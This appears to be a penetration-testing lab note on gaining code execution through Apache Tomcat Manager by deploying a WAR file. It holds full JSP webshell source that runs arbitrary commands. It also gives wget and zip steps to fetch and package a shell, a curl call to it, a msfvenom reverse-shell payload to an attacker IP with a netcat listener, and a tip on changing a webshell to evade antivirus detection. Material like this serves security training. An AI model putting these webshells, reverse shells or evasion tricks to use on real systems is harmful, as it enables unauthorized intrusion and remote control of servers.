 ```Java
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

#### Downloading the JSP webshell from GitHub
```Shell
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

#### Click on Browse to select the `.war` file and then click on `Deploy`
![[Pasted image 20230221094738.png]]

#### Interacting with the webshell using cURL
```Shell
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the backups application

#### Using `msfvenom` to create the WAR file
```Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

#### Start a Netcat listener and click on `/backup` to execute the shell
```Shell
nc -lnvp 4443
```

***The `multi/http/tomcat_mgr_upload` Metasploit module can be used to automate the process shown*

#### [Lightweight JPS Cmd Shell](https://raw.githubusercontent.com/SecurityRiskAdvisors/cmd.jsp/master/cmd.jsp)
Modifying the following can lead to a 0/58 detection on virustotal:
```jsp
FileOutputStream(f);stream.write(m);o="Uploaded:
```
